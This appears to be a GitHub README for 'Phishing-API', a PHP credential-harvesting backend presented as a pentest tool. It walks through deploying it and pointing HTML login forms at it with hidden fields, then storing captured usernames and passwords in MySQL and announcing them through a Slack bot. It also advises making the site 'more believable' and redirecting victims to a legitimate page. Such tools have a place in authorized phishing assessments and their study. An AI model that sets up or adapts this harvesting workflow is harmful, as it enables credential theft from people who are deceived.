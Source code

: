 # Phishing-API
Easy Deployment API for Phishing During Pentest Engagements.  Output to MySQL/Web Table &amp; Slack Bot

![Notification to Slack Channel](https://imgur.com/BIYQWry)

![View Captured Credentials via Web](https://imgur.com/UjMVPJ3)


To Setup :

1) Import the DB SQL Dump Schema to a new MySQL Instance

2) Host the PHP in a web service

3) Configure dbconfig.php

4) Limit Access to the "Results" Directory (Apache's Basic Auth is Recommended)

5) Use SSL and a Domain for the Hosted API (More Believable for Phishing)



To Use : 

1) Point your HTML Form to https://YOUR-API-HERE

	`<FORM METHOD="POST" ACTION="https://YOUR-API-HERE">`

2)  Make sure the "username" and "password" fields are named as such

	`<INPUT NAME="username">`
	
	`<INPUT NAME="password">`
	
3) Add hidden input fields for the name of the project and the URL the users should be redirected to after submitting their credentials to you (Recommend Legitimate Site)

	`<INPUT NAME="project" VALUE="My_Project_Here" TYPE="hidden">`
	
	`<INPUT NAME="redirect" VALUE="https://site_to_redirect_to" TYPE="hidden">`
	
4) Optionally include hidden input fields for altering the Slack bot's behavior (Name and Emoji)

	`<INPUT NAME="slackbotname" VALUE="SuckerBot" TYPE="hidden">`
	
	`<INPUT NAME="slackemoji" VALUE=":see_no_evil:" TYPE="hidden">`
	
5) Sit back and wait for the Slack bot to notify you.  When you want to see the credentials visit https://YOUR-API-HERE/results using your basic auth credentials
